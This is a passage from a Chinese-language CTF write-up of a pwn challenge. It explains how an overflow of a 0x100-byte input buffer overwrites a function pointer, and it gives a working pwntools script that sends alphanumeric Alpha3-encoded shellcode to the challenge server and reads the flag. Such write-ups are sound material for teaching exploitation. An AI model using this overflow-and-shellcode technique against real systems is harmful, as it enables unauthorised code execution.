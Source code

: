 ![](/media/14630355493646/14636452830598.jpg)


可以看出这个pwn本身很简单，`dword_804A160` 是一个函数指针，在得到用户输入后，执行该函数。

![](/media/14630355493646/14636455848196.jpg)


输入的字符串是存到`0x804A060`地址开始的，而在 `call eax` 的时候是将 `0x804A160` 开始的4个字节放到 `eax` 里面，再调用函数的。所以最后的`payload`应该是 `'A'*0x100 + shellcode起始地址 + shellcode`

这个需要注意的是`scanf`会对某些字符进行截断操作，所以shellcode要么encode一下，要么把产生截断字符的语句换成相等的其他语句。encode可以使用 Alpha3 进行编码。

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8

from pwn import *


r = remote('101.200.187.112', 9004)

shellcode = 'hffffk4diFkTpj02Tpk0T0AuEE0t3i4C3B3I7o2r1k0m7L2Z1o177M2p0X154y4N3j8L02'

print r.recv()
r.sendline('A' * 0x100 + p32(0x804a164) + shellcode)
r.sendline('cat flag')
print r.recv()

# r.interactive()
```


### Pwn250 guess
------
